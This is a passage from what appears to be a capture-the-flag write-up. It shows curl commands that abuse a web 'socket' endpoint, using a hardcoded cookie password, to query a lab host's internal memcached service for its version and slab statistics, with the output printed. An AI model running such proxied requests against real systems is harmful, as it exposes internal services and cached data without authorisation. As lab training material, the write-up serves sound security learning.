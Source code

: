     </pre>
    
    
    </div>
    </body>
    </html>
    

Based on [Ubuntu’s packaging
site](https://launchpad.net/ubuntu/+source/memcached/1.4.25-2ubuntu1.4), I’m
likely dealing with an Ubuntu Xenial host.

I’ll also note that the output I really care about is between the `<pre>` and
`</pre>` tags. With `curl`, I’ll pipe my output into `sed -n
'/pre/{:a;n;/pre/b;p;ba}'`, which will give me just everything between the
`pre` tags.

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=version' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    VERSION 1.4.25 Ubuntu
    

#### Get Item / Slab Info

Next I’ll get information about the items and memory (known as slabs). If I
run this without first visiting the port 80 page, or after that information
has timed out, I’ll get back nothing:

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT active_slabs 0
    STAT total_malloced 0
    END
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    END
    

That’s because the cache has timed out and emptied. If I visit the port 80
site and login as admin, and run these same queries again:

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT 16:chunk_size 2904
    STAT 16:chunks_per_page 361
    STAT 16:total_pages 1
    STAT 16:total_chunks 361
    STAT 16:used_chunks 1
    STAT 16:free_chunks 360
    STAT 16:free_chunks_end 0
    STAT 16:mem_requested 2880
    STAT 16:get_hits 0
    STAT 16:cmd_set 1
    STAT 16:delete_hits 0
    STAT 16:incr_hits 0
    STAT 16:decr_hits 0
    STAT 16:cas_hits 0
    STAT 16:cas_badval 0
    STAT 16:touch_hits 0
    STAT 26:chunk_size 27120
    STAT 26:chunks_per_page 38
    STAT 26:total_pages 1
    STAT 26:total_chunks 38
    STAT 26:used_chunks 1
    STAT 26:free_chunks 37